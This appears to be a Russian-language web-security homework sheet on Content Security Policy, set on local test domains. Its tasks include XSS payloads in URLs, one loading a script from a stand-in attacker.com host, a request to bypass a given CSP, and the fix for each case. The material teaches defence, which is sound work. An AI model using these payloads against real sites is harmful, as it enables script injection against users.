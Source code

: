 1. Открыть консоль браузера на http://attacker.com и запросить файл с http://victim.com с помощью XHR. Изучить реакцию браузера в консоли.

![homework 6-1](/img/6-1.jpg)

2. Примечание: домены attacker.com и victim.com должны резолвиться в 127.0.0.1, конфиг nginx тоже должен отдавать все так, чтобы на начало задания работало оба алерта.
Добавить данную политику CSP на сайте http://victim.com. Загрузить страницу victim.com/csp.php?js=<script/src=//attacker.com/evil.js></script>, посмотреть что произошло. Исправить политику CSP так, чтобы вредоносный код не выполнялся.

![homework 6-2](/img/6-2.jpg)

3. Не дать вредоносному коду http://victim.com/hw-6-3.php?name=<script>alert(“hacked”)</script> выполниться на странице http://victim.com/hw-6-3.php (представлена ниже) с помощью политики CSP (написать политику CSP). Легитимный код при это должен выполняться.

![homework 6-3](/img/6-3.jpg)

4. (*) Обойти политику CSP: script-src ‘unsafe-eval’ http://victim.com http://partner.com http://home.victim.com на странице http://victim.com/hw-6-4.html?text=123. Сделать безопасно, понять почему теперь безопасно.

![homework 6-4](/img/6-4.jpg)

5. (*) Установить bWAPP.

![homework 6-5](/img/6-5.jpg)
